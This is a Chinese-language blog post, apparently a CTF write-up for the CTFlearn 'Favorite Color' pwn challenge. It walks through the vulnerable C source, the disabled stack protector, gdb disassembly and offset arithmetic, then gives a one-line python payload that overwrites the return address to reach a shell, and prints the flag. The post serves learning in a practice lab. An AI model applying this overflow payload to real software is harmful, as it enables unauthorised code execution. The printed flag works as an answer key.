 ```yaml
---
layout: post
title: Favorite Color
categories: writeups
tags: pwn
ctfsite: ctflearn.com
challenge_url: https://ctflearn.com/problems/391
challenge_url_comment: 需要注册登录
---
```


这是一道简单的溢出题。使用题目给出的地址端口和用户名密码，登录到远程服务器中。查看一下目录内容：

![dir]({% asset dir.png %})

`flag.txt`就在当前目录，但是没有权限读。目录里还提供了源码和`Makefile`，以及可执行文件`color`。看来目的就是通过`color`的漏洞来读取`flag.txt`了。

{% include writeup_begin.html %}

打开看一下`color.c`：

{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vuln() {
    char buf[32];

    printf("Enter your favorite color: ");
    gets(buf);

    int good = 0;
    for (int i = 0; buf[i]; i++) {
        good &= buf[i] ^ buf[i];
    }

    return good;
}

int main(char argc, char** argv) {
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());

    //disable buffering.
    setbuf(stdout, NULL);

    if (vuln()) {
        puts("Me too! That's my favorite color too!");
        puts("You get a shell! Flag is in flag.txt");
        system("/bin/sh");
    } else {
        puts("Boo... I hate that color! :(");
    }
}
{% endhighlight %}

这是一个典型的缓冲区溢出问题。正常情况下，`vuln`将始终返回0，导致`main`函数始终都执行`else`分支。我们的目标是能够执行`if`分支。

再看一下`Makefile`:

{% highlight Makefile linenos %}
        # 省略部分内容 ...
$(prob).o: $(prob).c
        cc -c -m32 -fno-stack-protector $(prob).c
{% endhighlight %}

使用`-fno-stack-protector`关闭了栈溢出保护。因此我们可以直接通过覆盖返回地址进行爆破。使用gdb反汇编一下`vuln`函数：

{% highlight text linenos %}
   0x0804858b <+0>:     push   %ebp
   0x0804858c <+1>:     mov    %esp,%ebp
   0x0804858e <+3>:     sub    $0x38,%esp
   0x08048591 <+6>:     sub    $0xc,%esp
   0x08048594 <+9>:     push   $0x8048730
   0x08048599 <+14>:    call   0x8048410 <printf@plt>
   0x0804859e <+19>:    add    $0x10,%esp
   0x080485a1 <+22>:    sub    $0xc,%esp
   0x080485a4 <+25>:    lea    -0x30(%ebp),%eax
   0x080485a7 <+28>:    push   %eax
   0x080485a8 <+29>:    call   0x8048420 <gets@plt>
   0x080485ad <+34>:    add    $0x10,%esp
   0x080485b0 <+37>:    movl   $0x0,-0xc(%ebp)
   0x080485b7 <+44>:    movl   $0x0,-0x10(%ebp)
   0x080485be <+51>:    jmp    0x80485cb <vuln+64>
   0x080485c0 <+53>:    movl   $0x0,-0xc(%ebp)
   0x080485c7 <+60>:    addl   $0x1,-0x10(%ebp)
   0x080485cb <+64>:    lea    -0x30(%ebp),%edx
   0x080485ce <+67>:    mov    -0x10(%ebp),%eax
   0x080485d1 <+70>:    add    %edx,%eax
   0x080485d3 <+72>:    movzbl (%eax),%eax
   0x080485d6 <+75>:    test   %al,%al
   0x080485d8 <+77>:    jne    0x80485c0 <vuln+53>
   0x080485da <+79>:    mov    -0xc(%ebp),%eax
   0x080485dd <+82>:    leave
   0x080485de <+83>:    ret
{% endhighlight %}

第9行可以看到，缓冲区大小为0x30即48个字节（虽然代码中的数组大小为32个字节）。所以我们需要48个字节把缓冲区填满，再加4个字节覆盖`ebp`，再4个字节覆盖返回地址。返回地址就填进`if`分支的开始处，用gdb查看一下`main`：

{% highlight text linenos %}
                        ......
   0x0804864e <+111>:   call   0x804858b <vuln>
   0x08048653 <+116>:   test   %eax,%eax
   0x08048655 <+118>:   je     0x8048689 <main+170>
   0x08048657 <+120>:   sub    $0xc,%esp
   0x0804865a <+123>:   push   $0x804874c
   0x0804865f <+128>:   call   0x8048440 <puts@plt>
   0x08048664 <+133>:   add    $0x10,%esp
   0x08048667 <+136>:   sub    $0xc,%esp
   0x0804866a <+139>:   push   $0x8048774
   0x0804866f <+144>:   call   0x8048440 <puts@plt>
   0x08048674 <+149>:   add    $0x10,%esp
   0x08048677 <+152>:   sub    $0xc,%esp
   0x0804867a <+155>:   push   $0x8048799
   0x0804867f <+160>:   call   0x8048450 <system@plt>
   0x08048684 <+165>:   add    $0x10,%esp
                        ......
{% endhighlight %}

`0x08048657`就是我们希望的返回地址。因此构造payload并传入`color`程序:

`(python -c "print '1234567890123456789012345678901234567890123456780000\x57\x86\x04\x08'";cat) | ./color`

至此我们就得到了shell：

![shell]({% asset shell.jpg %})

`cat`一下，即得到了flag：<flag>flag{c0lor_0f_0verf1ow}</flag>

{% include writeup_end.html %}
